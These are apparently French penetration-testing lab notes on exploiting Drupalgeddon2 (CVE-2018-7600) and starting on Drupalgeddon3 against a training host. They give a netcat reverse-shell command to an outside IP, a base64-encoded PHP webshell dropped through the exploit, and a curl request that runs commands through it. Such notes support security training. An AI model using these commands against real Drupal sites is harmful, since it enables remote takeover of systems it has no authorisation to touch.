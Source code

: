 


### Drupalgeddon2 ([CVE-2018-7600](https://www.drupal.org/sa-core-2018-002)) (7.58 à 8.5.1)

RCE

https://www.exploit-db.com/exploits/44448

#### Reverse Shell

Modifier le poc et changer la command echo dans l'exploit

```shell
busybox nc 10.10.14.63 443 -e /bin/bash
```

Lancer le poc

```shell
python3 drupalgeddon2.py
```

#### Webshell

Générer webshell en base64

```shell
echo '<?php system($_GET[bb58021f870b5f85c6c24120540de43f]);?>' | base64
```

Modifier le poc et changer la command echo dans l'exploit

```shell
echo "PD9waHAgc3lzdGVtKCRfR0VUW2JiNTgwMjFmODcwYjVmODVjNmMyNDEyMDU0MGRlNDNmXSk7Pz4K" | base64 -d | tee bb58021f870b5f85c6c24120540de43f.php
```

Lancer le poc

```shell
python3 drupalgeddon2.py
```

RCE

```shell
curl http://drupal-dev.inlanefreight.local/haha.php?bb58021f870b5f85c6c24120540de43f=id
```


### Drupalgeddon3 ([CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/)) (7.x / 8.x)

> [!TIP]
> Necessite la permission de delete un node

Authenticated RCE


#### Metasploit Reverse shell
